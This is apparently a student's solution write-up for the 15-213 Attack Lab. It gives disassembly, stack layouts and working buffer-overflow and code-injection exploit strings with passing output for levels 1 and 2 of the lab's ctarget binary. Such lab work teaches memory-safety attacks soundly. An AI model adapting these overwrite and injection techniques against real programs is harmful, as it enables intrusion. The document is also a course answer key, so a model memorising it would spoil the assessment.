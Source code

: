 # Solution

## Part I: Code Injection Attacks

### Level 1

Here is the assembly code for *Gets*:

```Assembly
0000000000401a40 <Gets>:
  401a40:	41 54                	push   %r12
  401a42:	55                   	push   %rbp
  401a43:	53                   	push   %rbx
  401a44:	49 89 fc             	mov    %rdi,%r12
  401a47:	c7 05 b3 36 20 00 00 	movl   $0x0,0x2036b3(%rip)        # 605104 <gets_cnt>
  401a4e:	00 00 00 
  401a51:	48 89 fb             	mov    %rdi,%rbx
  401a54:	eb 11                	jmp    401a67 <Gets+0x27>
  401a56:	48 8d 6b 01          	lea    0x1(%rbx),%rbp
  401a5a:	88 03                	mov    %al,(%rbx)
  401a5c:	0f b6 f8             	movzbl %al,%edi
  401a5f:	e8 3c ff ff ff       	call   4019a0 <save_char>
  401a64:	48 89 eb             	mov    %rbp,%rbx
  401a67:	48 8b 3d 62 2a 20 00 	mov    0x202a62(%rip),%rdi        # 6044d0 <infile>
  401a6e:	e8 4d f3 ff ff       	call   400dc0 <_IO_getc@plt>
  401a73:	83 f8 ff             	cmp    $0xffffffff,%eax
  401a76:	74 05                	je     401a7d <Gets+0x3d>
  401a78:	83 f8 0a             	cmp    $0xa,%eax
  401a7b:	75 d9                	jne    401a56 <Gets+0x16>
  401a7d:	c6 03 00             	movb   $0x0,(%rbx)
  401a80:	b8 00 00 00 00       	mov    $0x0,%eax
  401a85:	e8 6e ff ff ff       	call   4019f8 <save_term>
  401a8a:	4c 89 e0             	mov    %r12,%rax
  401a8d:	5b                   	pop    %rbx
  401a8e:	5d                   	pop    %rbp
  401a8f:	41 5c                	pop    %r12
  401a91:	c3                   	ret
```

Here is a rough translation to C:

```C
int Gets(char* buf) {
    gets_cnt = 0; // global variable
    for (char c = getchar(); c != -1 && c != '\n'; c = getchar()) {
        *buf = c;
        save_char(c);
        buf += 1;
    }
    *buf = 0;
    save_term();
    return 0;
}
```

This function is called within *getbuf*:

```Assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
  ```

Before the call to *Gets*, it basically prepares a buffer of size 0x28 (40 bytes) on the stack and pass the stack pointer as input to *Gets*.

Here is the stack organization at the point after *call*:

| address     | data        |
|------------ | ----------- |
| %rsp + 0x30 | 0x401976    |
| %rsp + 0x28 |             |
| %rsp + 0x20 |             |
| %rsp + 0x18 |             |
| %rsp + 0x10 |             |
| %rsp + 0x08 |             |
| %rsp        | 0x4017b4    |

Where *%rdi* point to *%rsp + 0x8*, *%rsp* contains the address to the instruction after the call to *Gets* in *getbuf*, and *rsp + 0x30* contains the address to the instructino after the call to *getbuf* in *test*.

Our goal is to replace *%rsp + 0x30* with the address of the *touch1* function (0x4017c0).

To do that, we can simply write 40 arbitrary characters, and then 4 bytes corresponding to the *touch1* address. See [exploit_ctarget_1.txt](exploit_ctarget_1.txt) for the solution to this problem.

Here is the output after running ctarget with the exploit string:

```bash
❯ ./ctarget -q < solution/exploit_ctarget_1_raw.txt
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 
```

### Level 2

The idea is to write a function inside the buffer, say at *%rsp + 0x08* and pass control to that function from *getbuf*. Inside that function, we write our cookie to *%rdi*, and then pass control again to the *touch2* function.

To implement two function returns that first returns to *%rsp + 0x08* and then to *touch2*, at first I thought we should put *%rsp + 0x08* to *%rsp + 0x30* (the return address of *getbuf*), and put *touch2* address above it (*%rsp + 0x38*). However, I got a segmentation fault. This is most probably due to messing with *test* function's stack.

A better way would be to push the address of *touch2* before calling *ret* from our injected code.

Note that *%rsp + 0x08* is the stack pointer after allocating `buf` in `getbuf`. We can get this value with GDB.

Here is the assembly code we need to inject to our string:

```Assembly
bf fa 97 b9 59                                              /* %rsp + 0x08: mov 0x59b997fa %edi */
68 ec 17 40 00                                              /* %rsp + 0x0d: push ox4017ec */ 
c3                                                          /* %rsp + 0x12: ret */
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 /* %rsp + 0x13: arbitrary bytes */
00 00 00 00 00 00 00 00 00                                  /* %rsp + 0x27: arbitrary bytes */
78 dc 61 55 00 00 00 00                                     /* %rsp + 0x30: %rsp + 0x08 */
```

Here is the output after running ctarget with the exploit string:
```
❯ ./ctarget -q < solution/exploit_ctarget_2_raw.txt
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:BF FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
 ```
